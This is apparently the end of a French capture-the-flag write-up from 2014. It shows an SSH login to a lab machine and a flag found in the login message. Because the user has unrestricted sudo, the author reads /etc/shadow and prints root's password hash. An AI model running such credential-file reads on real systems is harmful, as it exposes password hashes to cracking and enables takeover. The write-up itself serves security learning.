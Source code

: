 ```plain
Unauthorized access is expected...
spinkton@192.168.1.60's password: 
Last login: Thu Mar 27 12:48:29 2014 from 192.168.56.1
#flag#motd-flag
[spinkton@localhost ~]$
```

Dans l'historique bash de *M. Pinkton* on trouve beaucoup de commandes sudo. En fait l'utilisateur peut lancer tout ce qu'il souhaite :  

```plain
[spinkton@localhost ~]$ sudo head -1 /etc/shadow
root:$1$.GWA7rU/$lVPNjveio2K8Hpsuk.6N4/:15861:0:99999:7:::
```

Game over

*Published July 22 2014 at 13:25*